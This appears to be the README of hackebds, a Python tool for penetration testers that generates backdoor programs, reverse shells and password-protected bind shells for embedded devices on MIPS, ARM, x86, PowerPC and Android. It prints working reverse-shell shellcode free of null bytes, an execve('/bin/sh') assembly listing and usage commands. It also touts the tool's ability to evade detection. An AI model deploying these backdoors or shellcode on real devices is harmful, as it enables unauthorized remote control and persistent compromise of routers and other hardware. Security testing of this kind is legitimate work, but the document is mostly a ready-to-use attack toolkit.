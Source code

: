 introduction
============

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell, and the other is that memory corruption vulnerabilities such
   as stack overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** of various architectures. The backdoor
   program is packaged in shellless pure shellcode and is smal in
   size，Pure static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，powerpc，powerpc64 are now supported, and they are
   still being updated**

2. Generate **reverse_shell shellcode** of various architectures during
   the exploit process, and no null bytes, which facilitates the
   exploitation of memory corruption vulnerabilities on embedded
   devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and
   they are still being updated**

3. | Fixed some bugs that the reverse_shellcode and reverse_backdoor
     **ports were selected too big**, and **added the function of
     generating bindshell with specified ports and passwords under x86
     and x64**\ ，\ **and beautified the generation
     process\***\ \*（This feature will be updated to various
     architectures）*\*
   | Add support armvelv7_bind_shell(2022.10.27)，

4. Removed the generation sleep time of shellcode, and added mips\_
   bind\_ Shell, reverse of x86 and x64 small end\_ shell\_ Backdoor,
   the mips that are expected to be interrupted by mips\_ bind\_ Shell,
   which solves the error of password logic processing in the bindshell
   in mips，Joined aarch64\_ bind\_ shell

5. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

6. The learning function of the device model is added. After
   establishing the relationship between the model and arch, the target
   content is generated again. You only need to specify the model

7. CVE retrieval function is added and CVE retrieval is backed up

8. Improved x86, x64, armebv5, reverse\_ shellcode and reverse\_ shell\_
   file

9. add powerpc,powerpc64 support

install
-------

.. code:: 

   pip install hackebds
   pip install -U hackebds

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

When importing this module will import the pwn module

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   apt search binutils | grep arm（You can replace it here）
   apt install binutils-arm-linux-gnueabi/hirsute

1. Use the command line to generate the backdoor file name, shellcode,
   binshell, etc |image1|

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231

   |image2|

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   |image3|

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   |image4|

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> ppc_reverse_sl(reverse_ip,reverse_port)
   >>> ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian
| MIPS 24kc V5.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

2022.11.2 Joined aarch64\_ bind\_ shell

2022.11.15 fix some bug and add powerpc,powerpc64

One-click build environment
---------------------------

To be added

.. |image1| image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102192550052.png
.. |image2| image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
.. |image3| image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
.. |image4| image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png


